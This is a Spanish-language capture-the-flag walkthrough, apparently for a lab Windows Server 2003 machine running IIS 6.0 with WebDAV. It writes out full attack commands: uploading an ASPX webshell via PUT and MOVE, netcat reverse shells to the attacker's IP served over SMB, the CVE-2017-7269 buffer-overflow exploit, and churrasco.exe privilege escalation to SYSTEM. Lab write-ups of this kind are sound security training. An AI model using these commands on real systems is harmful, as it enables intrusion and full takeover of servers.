 ## Summary

Tags: #Windows #HTTP #IIS #WebDav #ReverShell #BufferOverflow #RCE #JuicyPotato #Churrasco #Server2003 #SearchSploit 

- IP -> 10.10.11.130
- Ports -> TCP (80), UDP (idk)
- OS ->  Windows IIS
- Services & Applications
    - 80 -> 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p80 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```
Pero no encontramos nada.

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

# Encontramos 
	# Microsoft-ISS/6.0
```

En la captura de Nmap además de encontrar que el puerto 80 esta abierto, podemos ver que nos sale los métodos permitidos.
```bash 
# Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH... 
# Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND...

	# PUT = Subir un archivo al servidor 
	# MOVE = 'Mover' el archivo o cambiarle de extension

# Type WebDav
```

Como vemos que hay un WebDav podemos usar la siguiente herramienta para testear que tipo de archivos podemos subir al servidor. Lo que hace la herramienta es que subirá todo tipo de archivos y nos reportara cuales si logro subir. 
```bash 
❯ davtest -url http://10.10.10.15 
```

* Para un **IIS** una extensión critica es la de **asp o aspx** 

La herramienta nos reporta que no podemos subir la extensión .aspx. Por lo que subiremos un archivo malicioso con otro tipo de extensión que sea permitida, después con el archivo subido, cambiaremos su extensión con el método MOVE a la extensión de .aspx.

Buscaremos la Webshell de Windows para que nos la interprete IIS y así poder ejecutar comandos.
```bash 
❯ locate cmdasp.apsx    # Buscaremos el archivo en nuestra maquina de atacante 
```

```bash 
❯ curl -s -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx

	# d = Subir una data que es indicada con el @ y sera el archivo de la cdm
```

Le cambiamos la extensión al archivo que hemos subido
```bash 
❯ curl -s -X MOVE http://10.10.10.15/cmd.txt -H "Destination:http://10.10.10.15/cmd.aspx"
```

Ahora en la Web, al final de la url le colocamos el cmd.aspx y así podremos obtener la Webshell.

Como tenemos ejecución remota de comandos. Haremos una ReverShell a nuestra IP y al puerto 443. Pero primero buscamos el nc.exe para Windows en nuestra maquina de atacante. 
```bash 
❯ locate nc.exe
```

Compartimos el archivo a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Ahora en la consola de la web hacemos lo siguiente:
```bash 
\\10.10.14.11\\smbFolder\\nc.exe -e cmd 10.10.14.11 443

	# e = Ejecutamos el Netcat con una cmd, que nos la enviaremos a nuestro equipo por el puerto 443
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

### Segunda forma de intrusión 

Otra forma de hacer la intrusión es por medio del Buffer Overflow
```bash
❯ searchsploit IIS 6.0                        # Para buscar un exploit
```

```bash 
❯ searchsploit -m 41738.py                    # Para descargarnos el exploit .py que nos ayudara a hacer el Buffer Overflow para el IIS 6.0

	# m = move


# O podemos clonarnos el siguiente directorio con un exploit mejor
❯ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```
Al momento de mirar el contenido del exploit, podemos observar que usa el método **PROPFIND** y este método si esta disponible en el servidor. 

Ejecutamos el exploit de la siguiente manera:
```python 
❯ python2 iis6.py <IP Victima> 80 <IP Atacante> 443

	# ip = IP de la maquina victima 
	# 80 = Puerto victima 
	# ip A = Ip de la maquina de atacante
	# 443 = Puerto a abrir de la maquina de atacante  
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

## User

* Ahora nos hemos convertido en NT authority\\network service 


* Ahora buscaremos la forma de ser NT Authority\\System

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetImpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato, este es para servers del 2003
```

Nos descargamos el de la siguiente pagina:
* [Juicy-Potato-Server-2003](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

Descargamos el archivo de churracco.exe y lo compartimos a la maquina victima por un servidor smb. 
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

En la consola de Windows para transferirnos el archivo, primero debemos de ir al dir **Temp** y después colocamos el siguiente comando. 
```python
❯ copy \\10.10.14.11\\smbFolder\\churrasco.exe churrasco.exe    # Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante

	# IP = IP de atacante
	# smbFolder = Nombre del folder del recurso compartido
	# File.exe = Nombre del archivo .exe a copiar de la maquina de atacante
	# File.exe = Nombre del archivo .exe en el cual se depositara el archivo copiado
```

Ejecutamos el churrasco de la siguiente manera
```bash 
❯ churrasco.exe "\\10.10.14.11\\smbFolder\\nc.exe -e cmd 10.10.14.11 443"           # Al momento de ejecutar el churrasco debemos de colocar el comandos a ejecutar 
```

Pero antes compartirnos el Netcat a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Nos ponemos en escucha 
```bash 
❯ rlwrap nc -nlvp 443
```

## Root

Ahora somos NT Authority\\System
Buscamos la primer flag del usuario user.txt en Lakis, en donde antes no nos podíamos meter y la segunda flag en Administrator
